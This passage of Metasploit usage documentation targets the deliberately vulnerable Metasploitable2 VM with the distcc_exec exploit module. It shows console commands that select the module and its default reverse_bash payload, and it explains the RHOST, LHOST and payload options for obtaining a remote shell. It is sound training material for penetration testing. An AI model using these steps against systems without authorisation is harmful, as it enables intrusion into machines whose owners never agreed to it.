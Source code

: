 - [Metasploitable2](https://docs.rapid7.com/metasploit/metasploitable-2/) 
- [Metasploitable3](https://github.com/rapid7/metasploitable3)

For instance - targeting a vulnerable Metasploitable2 VM and using the `unix/misc/distcc_exec` module:

```msf
msf6 > use unix/misc/distcc_exec
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(unix/misc/distcc_exec) > 
```

Exploit modules will generally at a minimum require the following options to be set:

- `RHOST` - The remote target host address 
- `LHOST` - The listen address. **Important** This may need to be set to your `tun0` IP address or similar, if you are connecting to your target over a VPN
- `PAYLOAD` - The code to be executed after an exploit is successful. For instance creating a user, or a Metasploit session. Often this can be left as the default value, but may sometimes require configuration

Each module offers configurable options which can be viewed with the `show options`, or aliased `options`, command:

```msf
msf6 exploit(unix/misc/distcc_exec) > options

Module options (exploit/unix/misc/distcc_exec):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   3632             yes       The target port (TCP)


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

msf6 exploit(unix/misc/distcc_exec) > 
```
